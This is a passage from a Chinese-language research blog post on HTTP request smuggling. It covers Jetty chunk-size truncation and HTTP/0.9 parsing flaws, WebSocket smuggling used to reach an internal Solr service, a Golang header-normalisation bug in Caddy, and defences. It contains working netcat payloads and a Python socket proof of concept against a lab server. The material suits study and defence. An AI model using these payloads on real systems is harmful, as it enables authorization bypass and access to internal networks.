    > ​ In Eclipse Jetty, versions 9.2.x and older, 9.3.x (all configurations), and 9.4.x (non-default configuration with RFC2616 compliance enabled), transfer-encoding chunks are handled poorly. The chunk length parsing was vulnerable to an integer overflow. Thus a large chunk size could be interpreted as a smaller chunk size and content sent as chunk body could be interpreted as a pipelined request. If Jetty was deployed behind an intermediary that imposed some authorization and that intermediary allowed arbitrarily large chunks to be passed on unchanged, then this flaw could be used to bypass the authorization imposed by the intermediary as the fake pipelined request would not be interpreted by the intermediary as a request.
    
-   CVE-2017-7658 Double Content-Length
    
    > ​ In Eclipse Jetty Server, versions 9.2.x and older, 9.3.x (all non HTTP/1.x configurations), and 9.4.x (all HTTP/1.x configurations), when presented with two content-lengths headers, Jetty ignored the second. When presented with a content-length and a chunked encoding header, the content-length was ignored (as per RFC 2616). If an intermediary decided on the shorter length, but still passed on the longer body, then body content could be interpreted by Jetty as a pipelined request. If the intermediary was imposing authorization, the fake pipelined request would bypass that authorization.
    

对于 CVE-2017-7658 我们就不再探究了，因为之前也提过了，我们主要来看另外两个比较有意思的地方。

### HTTP/0.9

环境依旧可以使用我构建的 [jetty lab 环境](https://github.com/ZeddYu/HTTP-Smuggling-Lab/tree/master/jetty)，然后我们用如下方式发送一个标准的 HTTP/0.9 请求：

```plain
printf 'GET /?test=4564\r\n'|nc -q 1 127.0.0.1 8994
```

得到一个 400 响应：

```plain
HTTP/1.1 400 HTTP/0.9 not supported
Content-Type: text/html;charset=iso-8859-1
Content-Length: 65
Connection: close
Server: Jetty(9.4.9.v20180320)

<h1>Bad Message 400</h1><pre>reason: HTTP/0.9 not supported</pre>
```

接着我们加上版本标识：

```plain
printf 'GET /?test=4564 HTTP/0.9\r\n\r\n'|nc -q 1 127.0.0.1 8994
```

虽然这是 HTTP/0.9 不支持的格式，但是也会有意外的收获，得到一个 200 响应：

```plain
<head>
<title>Sample "Hello, World" Application</title>
</head>
<body bgcolor=white>

<table border="0">
<tr>
...
```

这里的响应没有 headers ，只有 body ，也就是这个请求被 HTTP/0.9 进行了解析。

而且更有意思的是，添加上 HTTP/0.9 不支持的 headers 也会有意外的收获，这里我们添加一个提取响应包部分内容的 header：

```plain
printf 'GET /?test=4564 HTTP/0.9\r\n'\
'Range: bytes=36-42\r\n'\
'\r\n'\
|nc -q 1 127.0.0.1 8994

, World
```

会发现 body 内容被我们进行了提取，结合我们上文提到的结合 HTTP Versio 进行的 HTTP Response Splitting ，我们可以进行各种花式攻击

### Chunk size attribute truncation

我们利用以下代码发送请求：

```plain
printf 'POST /?test=4973 HTTP/1.1\r\n'\
'Transfer-Encoding: chunked\r\n'\
'Content-Type: application/x-www-form-urlencoded\r\n'\
'Host: localhost\r\n'\
'\r\n'\
'100000000\r\n'\
'\r\n'\
'POST /?test=4974 HTTP/1.1\r\n'\
'Content-Length: 5\r\n'\
'Host: localhost\r\n'\
'\r\n'\
'\r\n'\
'0\r\n'\
'\r\n'\
|nc -q 1 127.0.0.1 8994|grep "HTTP/1.1"
```

然后我们可以得到两个 200 响应可是按照 chunk 的标准，虽然第二个部分看起来是一个请求，但是实际上应该被算在 chunk data 当中，而问题就在这，jetty 返回了两个请求，把 100000000 当作了 0 ，也就是 chunk end 部分，所以就出现了两个请求的原因。

我们可以再进行一些尝试：

```plain
printf 'POST /?test=4975 HTTP/1.1\r\n'\
'Transfer-Encoding: chunked\r\n'\
'Content-Type: application/x-www-form-urlencoded\r\n'\
'Host: localhost\r\n'\
'\r\n'\
'1ff00000008\r\n'\
'abcdefgh\r\n'\
'\r\n'\
'0\r\n'\
'\r\n'\
'POST /?test=4976 HTTP/1.1\r\n'\
'Content-Length: 5\r\n'\
'Host: localhost\r\n'\
'\r\n'\
'\r\n'\
'0\r\n'\
'\r\n'\
|nc -q 1 127.0.0.1 8994|grep "HTTP/1.1"
```

这里我们依然得到了两个 200 响应，也就是第一个 chunk size 1ff00000008 被 jetty 截断成了 8 ，也就是 chunk data 部分只有`abcdefgh`，所以就返回了两个响应。

与 Apache CVE-2015-3183 类似，jetty 只会取 chunk size 的最后8个字节：

```plain
ffffffffffff00000000\r\n
            ^^^^^^^^
            00000000 => size 0

1ff00000008\r\n
   ^^^^^^^^
   00000008 => size 8
```

## Websocket

其实这部分完全可以作为一个独立的部分，但是感觉篇幅有点长了，这里就做一下简单的介绍，在 Hackactivity 2019 上，@0ang3el 提出了与 Websocket 相关的攻击技术 [What’s wrong with WebSocket APIs? Unveiling vulnerabilities in WebSocket APIs.](https://www.slideshare.net/0ang3el/whats-wrong-with-websocket-apis-unveiling-vulnerabilities-in-websocket-apis)，让我比较感兴趣的则是 Websocket Smuggling 的部分。

作者也把相关的描述放在了 [websocket-smuggle](https://github.com/0ang3el/websocket-smuggle) 这里，这个攻击面是什么呢？帮大家一句话总结就是在 websocket 建立连接时，如果反向代理没有完全严格遵守 RFC 6445 标准，在处理`Sec-WebSocket-Version` 版本错误的情况并没有做好相应的处理，导致了保持了客户端与后端服务器 TCP/TLS 的连接，所以造成了我们可以进行 Smuggling 请求的攻击，这里直接表现为可以通过这种攻击访问内网。

这里我们假设内网存在 solr 服务，外网无法访问，如果存在 websocket smuggling ，我们可以编写以下代码访问 solr 服务：

```plain
import socket 

req1 = """GET /socket.io/?EIO=3&transport=websocket HTTP/1.1
Host: ip:port
Sec-WebSocket-Version: 1338
Upgrade: websocket

""".replace('\n', '\r\n')

req2 = """GET /solr/#/ HTTP/1.1
Host: localhost:8983

""".replace('\n', '\r\n')

def main(netloc):
    host, port = netloc.split(':')

    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect((host, int(port)))

    sock.sendall(req1)
    sock.recv(4096)

    sock.sendall(req2)
    # print req2
    data = sock.recv(4096)
    data = data.decode(errors = 'ignore')
    print(data)
    data = sock.recv(4096)
    data = data.decode(errors = 'ignore')
    print(data)

    sock.shutdown(socket.SHUT_RDWR)
    sock.close()

if __name__ == "__main__":
    main('ip:port')
```

在今年红帽杯上也有使用这个攻击技术的一道 CTF 赛题，相关的 writeup 可以看看 [Red Hat 2019 Web Write Up](https://blog.zeddyu.info/2019/11/13/Red-Hat-2019/#bank-service)

## Golang

这个是比较有意思的一个部分，当时是在10月初 fuzz 的，然后也找了挺久的目标，最后停留在了之前同学推荐的一个中间件 [caddy](https://caddyserver.com/v1/) 上（现在是 11月 27 日，竟然出 caddy 2 了...），然后拿他进行了实验，由于自己比较懒用了 docker hub 上的环境 [caddy](https://hub.docker.com/r/abiosoft/caddy)。

于是就有了：

[](https://blogpic-1254145318.cos.ap-shanghai.myqcloud.com/20191129022617.png)

当时找到挺开心的，以为一个 CVE 就这么简单的到手了，因为 Netty CVE 给的启示嘛，这也算是一个解析差异。然后当时我跟导师还仔细深入探究了这个产生的原因，跟了一下代码，发现可能是 Go 某个原生库的原因，我本地也单独抽了其中有问题的代码测了一遍，确认就是那个库的原因。

当时可开心了，赶紧噼里啪啦搜索如何给 Golang 提 issue ，结果后来仔细弄了一会，发现这个问题在 9月27日已经被提到了 [net/http: invalid headers are normalized, allowing request smuggling](https://github.com/golang/go/issues/34540)，Golang 也在 1.13.1 版修复了该问题。//悔不当初应该提早看一看这方面的内容，错过一个 CVE /捂脸

然后我仔细看了本地 Golang 版本 1.8.x ...然后 Caddy 的 issue 邮件回复也到了...不出所料让我升级 Golang 到 1.13.1，~看了一眼 dockerhub 上的 caddy 我吐了~

但是目前(11/27) dockerhub 上的 caddy 环境仍然还是有这个问题的，使用需谨慎！

## Something Else

hackerone 上已经有相关漏洞的披露了，这里推荐几篇挖洞实战的文章：

[Write up of two HTTP Requests Smuggling](https://medium.com/@cc1h2e1/write-up-of-two-http-requests-smuggling-ff211656fe7d)

[HTTP Request Smuggling (CL.TE)](https://memn0ps.github.io/2019/11/02/HTTP-Request-Smuggling-CL-TE.html)

[HTTP Request Smuggling on vpn.lob.com](https://hackerone.com/reports/694604)

# Defence

> ​ 从前面的大量案例中，我们已经知道了HTTP请求走私的危害性，那么该如何防御呢？不针对特定的服务器，通用的防御措施大概有三种。
> 
> -   禁用代理服务器与后端服务器之间的TCP连接重用。
> -   使用HTTP/2协议。
> -   前后端使用相同的服务器。
> 
> 以上的措施有的不能从根本上解决问题，而且有着很多不足，就比如禁用代理服务器和后端服务器之间的TCP连接重用，会增大后端服务器的压力。使用HTTP/2在现在的网络条件下根本无法推广使用，哪怕支持HTTP/2协议的服务器也会兼容HTTP/1.1。从本质上来说，HTTP请求走私出现的原因并不是协议设计的问题，而是不同服务器实现的问题，个人认为最好的解决方案就是严格的实现RFC7230-7235中所规定的的标准，但这也是最难做到的。

然而我参考了比较多的攻击文章，均没有提到为什么 HTTP/2 可以防范 HTTP Smuggling ，原作者也是一句话带过:

> Use HTTP/2 for back-end connections, as this protocol prevents ambiguity about the boundaries between requests.

之后我去查询了一下 HTTP/2 与 HTTP/1.1 的差异，个人认为主要是 HTTP/2 中加入了 Request multiplexing over a single TCP connection ，也就是说使用 HTTP/2 可以使用单个 TCP 连接来进行请求资源，也就减少了 TCP 连接复用的可能性，即使能 Smuggle 也只能打自己；而且对于新的二进制分帧机制引入也对该种攻击做出了限制。

具体可以参考 [HTTP/2 简介](http://xz.aliyun.com/t/[https://developers.google.com/web/fundamentals/performance/http2#%E6%AF%8F%E4%B8%AA%E6%9D%A5%E6%BA%90%E4%B8%80%E4%B8%AA%E8%BF%9E%E6%8E%A5](https://developers.google.com/web/fundamentals/performance/http2))

[](https://miro.medium.com/max/1494/0*lY05UTuA-dWCXU-q.png)

# Bonus

经过这段时间的学习研究，自己也将一些相关的实验整理成了 docker 环境，方便大家复现学习：[HTTP-Smuggling-Lab](https://github.com/ZeddYu/HTTP-Smuggling-Lab)

现在环境不多，欢迎 star，后面我会继续加入更多的环境方便大家以白盒的形式去理解学习，~如果我有时间的话~

# References

[RFC7230](https://tools.ietf.org/html/rfc7230)

[HTTP Desync Attacks: Request Smuggling Reborn](https://portswigger.net/research/http-desync-attacks-request-smuggling-reborn)

[HTTP request smuggling](https://portswigger.net/web-security/request-smuggling)

[regilero's blog](https://regilero.github.io/tag/Smuggling/)

[协议层的攻击——HTTP请求走私](https://paper.seebug.org/1048/)

[http request smuggling, cause by obfuscating TE header](https://github.com/netty/netty/issues/9571)

[Multiple HTTP Smuggling reports](https://hackerone.com/reports/648434)

[HTTP/2: the difference between HTTP/1.1, benefits and how to use it](https://medium.com/@factoryhr/http-2-the-difference-between-http-1-1-benefits-and-how-to-use-it-38094fa0e95b)
